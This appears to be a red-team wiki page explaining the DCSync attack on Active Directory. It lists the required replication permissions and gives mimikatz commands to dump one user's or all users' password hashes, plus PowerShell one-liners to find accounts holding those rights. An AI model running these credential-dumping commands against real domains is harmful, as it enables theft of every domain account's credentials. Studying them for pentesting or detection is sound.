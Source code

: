 ```yaml
---
label: DCSync
---
```


# Credentials dump using DCSync attack

> **Requirements**:
>
> * Current user needs _DCSync_  permissions (see below) on a Domain Object granted. _Domain Admins_, _Enterprise Admins_, _Administrators_ and _Domain Controllers_ groups have the required permissions by default.
> * Access to LDAP service on DC.

A DCSync attack exploits a legitimate function of Active Directory to steal password data from Domain Controller database. The DCSync simulates the behavior of a Domain Controller and asks other DC to replicate information using the _Directory Replication Service Remote Protocol_ (MS-DRSR) and its _GetNCChanges_ function. In response a DC returns the replication data that includes password hashes. Most often, the place from which DCSync is executed is not restricted, so you just need to have the right user.

Required DCSync permissions on the Domain Object:

* Replicating Directory Changes
* Replicating Directory Changes All
* Replicating Directory Changes In Filtered Set

Windows:

> **WARNING**: It assumes that you are the user who has DCSync permissions and you have valid TGT or TGS for DC LDAP service in memory. It might be required to _become someone else_ (e.g. domain admin) using Delegation Abuse, [Pass-the-Ticket](/windows-lateral-movement/pass-the-ticket) or [RunAs](/windows-lateral-movement/access-token-manipulation) techniques.

```powershell
.\mimikatz.exe

# Get a single domain user password hash
> lsadump::dcsync /domain:$domain /user:$user

# Get all domain users password hashes
> lsadump::dcsync /domain:$domain /all
```

## Enumerate users or groups with DCSync permissions

Active Directory module:

```powershell
(Get-Acl "ad:\dc=$domain_p2,dc=$domain_p1").Access | ? {($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) } | select IdentityReference
```

PowerView module:

```powershell
Get-ObjectACL "DC=$domain_p2,DC=$domain_p1" -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | select SecurityIdentifier,@{n="Identity";e={Convert-SidToName $_.SecurityIdentifier}} 
```

## References

* [Red Team Notes 2.0, _DCSync_](https://dmcxblue.gitbook.io/red-team-notes-2-0/active-directory/active-directory-attacks/dcsync)
* [Altered Security, _A primer on DCSync attack and detection_](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection)
